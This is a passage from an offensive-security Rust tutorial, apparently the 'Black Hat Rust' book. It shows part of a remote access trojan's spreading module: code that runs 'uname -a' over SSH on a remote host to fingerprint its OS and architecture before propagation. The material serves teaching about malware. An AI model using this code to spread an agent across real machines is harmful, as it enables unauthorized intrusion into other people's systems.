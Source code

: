 **[ch_13/rat/agent/src/spread.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/agent/src/spread.rs)**
```rust
#[derive(Debug, Clone, Copy)]
enum Platform {
    LinuxX86_64,
    LinuxAarch64,
    MacOsX86_64,
    MacOsAarch64,
    Unknown,
}

impl fmt::Display for Platform {
    fn fmt(&self, f: &mut fmt::Formatter) -> fmt::Result {
        match self {
            Platform::LinuxX86_64 => write!(f, "linux_x86_64"),
            Platform::LinuxAarch64 => write!(f, "linux_aarch64"),
            Platform::MacOsX86_64 => write!(f, "macos_x86_64"),
            Platform::MacOsAarch64 => write!(f, "macos_aarch64"),
            Platform::Unknown => write!(f, "unknown"),
        }
    }
}
```

By implementing the `fmt::Display` trait, our `Platform` enum automagically has the `.to_string()` method available.

Then, we need to identify the remote platform. The simplest way to achieve that is by running the `uname -a` command on the remote system, as a system hosting an SSH server is almost guaranteed to have this command available.


```rust
fn identify_platform(ssh: &Session) -> Result<Platform, crate::Error> {
    let mut channel = ssh.channel_session()?;
    channel.exec("uname -a")?;

    let (stdout, _) = consume_stdio(&mut channel);
    let stdout = stdout.trim();

    if stdout.contains("Linux") {
        if stdout.contains("x86_64") {
            return Ok(Platform::LinuxX86_64);
        } else if stdout.contains("aarch64") {
            return Ok(Platform::LinuxAarch64);
        } else {
            return Ok(Platform::Unknown);
        }
    } else if stdout.contains("Darwin") {
        if stdout.contains("x86_64") {
            return Ok(Platform::MacOsX86_64);
        } else if stdout.contains("aarch64") {
            return Ok(Platform::MacOsAarch64);
        } else {
            return Ok(Platform::Unknown);
        }
    } else {
        return Ok(Platform::Unknown);
    }
}
```
